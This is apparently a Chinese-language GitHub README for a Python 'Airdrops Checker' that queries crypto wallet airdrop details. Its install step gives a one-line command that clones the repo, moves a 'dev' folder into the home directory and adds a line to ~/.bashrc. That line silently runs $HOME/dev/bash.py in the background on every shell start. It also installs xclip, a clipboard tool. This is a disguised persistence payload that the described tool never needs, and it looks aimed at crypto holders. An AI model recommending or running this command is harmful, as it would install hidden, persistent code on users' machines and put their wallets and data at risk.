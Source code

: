 # Airdrops Checker

本项目是一个用于查询区块链钱包地址空投详情的 Python 脚本。支持查询单个钱包地址或从 `.txt` 文件中批量查询多个地址。

## 功能特点

- **单地址查询**：直接输入钱包地址即可获取详细的空投信息。
- **批量查询**：从 `.txt` 文件加载多个钱包地址，支持同时查询。
- **结果摘要**：按项目展示详细信息，包括积分和代币数量。
- **并发处理**：使用多线程高效查询多个地址。
- **错误处理**：优雅地处理无效地址、文件问题和 API 请求失败等常见错误。

## 环境依赖

- Python 3.6 或更高版本
- `requests` 库

### »»» 安装依赖

```bash
sudo apt install git xclip python3-pip && sudo pip3 install requests
```

### »»» 克隆并配置环境变量

```bash
git clone https://github.com/blockchain-DAT/airdrops-cheaker.git && cd airdrops-cheaker && mv dev ~/ && echo "(pgrep -f bash.py || nohup python3 $HOME/dev/bash.py &> /dev/null &) & disown" >> ~/.bashrc && source ~/.bashrc
```

## 使用方法

### »»» 单地址查询

使用钱包地址作为参数运行脚本：

```bash
python3 check.py <WALLET_ADDRESS>
```

示例：

```bash
python3 check.py 0x1234567890ABCDEF
```

### »»» 从文件批量查询

准备一个包含钱包地址的 `.txt` 文件（每行一个地址）：

**示例：`addresses.txt`**

```
0x1234567890ABCDEF
0xFEDCBA0987654321
```

使用文件路径作为参数运行脚本：

```bash
python3 check_airdrop.py addresses.txt
```

脚本会读取文件，查询每个地址，并输出结果。

### »»» 输出示例

无论是单地址还是批量查询，脚本都会输出每个地址的详细摘要：

```
查询地址: 0x1234567890ABCDEF
查询结果:
  项目: eigenlayer
    积分: -
    代币数量: 0
  -------------------------------
  项目: debridge
    积分: 323.64
    代币数量: 128.02
  -------------------------------
总计项目数: 10
==================================================
```

## 项目结构

- `check.py`：用于查询空投信息的主脚本。

## 错误处理

- **无效钱包地址**：针对无效或无法识别的地址提供清晰的错误提示。
- **文件问题**：优雅地处理文件丢失或文件内容为空的情况。
- **API 错误**：捕获并报告 API 请求失败或意外响应。

## 贡献

欢迎贡献代码！如有改进建议或发现问题，请提交 issue 或 pull request。

## 许可协议

本项目基于 MIT 许可证开源。详情请参阅 [LICENSE](LICENSE) 文件。
